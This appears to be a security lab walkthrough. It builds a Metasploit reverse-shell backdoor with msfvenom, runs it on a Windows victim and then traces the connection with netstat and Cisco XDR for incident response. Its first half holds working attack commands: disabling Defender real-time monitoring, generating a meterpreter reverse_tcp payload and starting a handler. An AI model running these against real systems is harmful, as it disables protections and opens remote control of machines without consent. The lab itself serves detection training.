







# WarmUp

Create a malware with msfvenom, execute it on the victim machine and investigate with built-in win tools
Let's start it.

### Step 1

Open a Terminal as Administrator and select "Yes" at UAC prompt.
In the default PowerShell window, run the following command to disable Defender. 
Remember, our goal here is not bypass endpoint protection.

`Set-MpPreference -DisableRealtimeMonitoring $true`

Check if Defender is really turned off with (should be False):

`Get-MpComputerStatus | select RealTimeProtectionEnabled`

### Step 2

First, open an Terminal window as Administrator (CTRL + Click)


Click Yes at the User the User Account Control Prompt.

Open a Kali Linux command prompt: 


On the Kali console, check the IP address with:

```bash
ifconfig
```


Mark the IP address of the Kali Linux machine eth0 interface. Your IP will be DIFFERENT!

Run the following command to create a simple backdoor.

`sudo su -`

`msfvenom --platform Windows -a x86 -p windows/meterpreter/reverse_tcp lhost=<YOUR ETH0 IP> lport=4444 -f exe -o /tmp/beliveme.exe`

`ls -l /tmp/beliveme.exe`

Copy the malware to the share folder accessible by the Victim machine
`cp /tmp/beliveme.exe /mnt/c/temp`

`ls -l /mnt/c/temp/`

Now, we need to start the handler on attacker (Linux) machine. We need one more shell to the Linux box. Select the down carrot from the upper tabs on the Winodws Terminal and select kali-linux


Become a root:

`sudo su -`

Start the metasploit handler:

$`msfconsole -q`

msf6 > `use exploit/multi/handler`

msf6 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`

msf6 exploit(multi/handler) > `set LHOST <YOUR ETH0 IP>` Your IP will be DIFFERENT

msf6 exploit(multi/handler) > `exploit`


Open a Windows command prompt, by selecting the down carrot from the the Windows Terminal.
Once it's opened, run these commands:

`cd \temp`

`beliveme.exe`

You should have similar output:


### step 3

Now that we have a backdoor connections, let's investigate it. We know what to look for..this time! :)
Have an administrator terminal session ready and execute the following command:
TIPP1: -b switch needs admin rights and it's very usefull. It shows the executable involved in creating each connections or listening port.

```cmd
netstat -naob
```


TIPP2: You can check the help for netstat (or any other commands) cmd switches

```cmd
netstat /?
```


==TIPP3:== List only the ESTABLISHED connections:
```cmd
netstat -naob | findstr "ESTABLISHED"
```

==TIPP4:== List only the LISTENING connections:
```cmd
netstat -naob | findstr "LISTENING"
```

If you have RDP (or similar) access you can use TCPView application from the SysInternals package


If you look closer, you can find the connection (because we know what to look for) made by our supper evil "beliveme.exe" malware.



### step 4

### step 5
You can investigate it with a commercial tools as well (e.g. Cisco XDR)
The XDR sees immediately the event and creates an incident



Clicking on the incident, we get more details. Like, Vitim endpoint, Local IP, the IP the malware connected to, the file name and the hash of the malware




The malicious file was automatically sent for dynamic analysis (it's configurable)


Searching for the hash of the file (beliveme.exe) gives us more tech details. It show immediately , how many endpoints are affected in our organization.
Additionally, the behavior indicators describe, why the file was marked as malicious. 
- Metasploit Payload Detected 
- Artifact flagged as known trojan by Antivirus
- Possible backdoor behavior Detected
- Process uses private IP range for network traffic



As an analyst/investigator i can:
- Take a forensics snapshot of the memory
- Isolate the endpoint (or snapshot and isolate)
- Move to the Triage group (more logs, strict rules etc.)



Every stage of the Incident response can logged by the XDR:
- Identification with review, affected hosts, conformation
- Containment with Overview, assets, IPs, domains, URLs, hashes etc
- Eradication with vulnerability remediation, removing malicious content and system restore
- Recovery



It make sens to collect the netflow (NVZ flow) data at the process level. Not just the SRC/DST IPs and ports are visible, but muc more.
- which process initiated the flow?
- what is the process ID?
- what is the path of the process?
- what is the PID of the parent process?
- what is the parent process name?
- what is the hash of the process?
- How is logged in to the endpoint?



### step 5
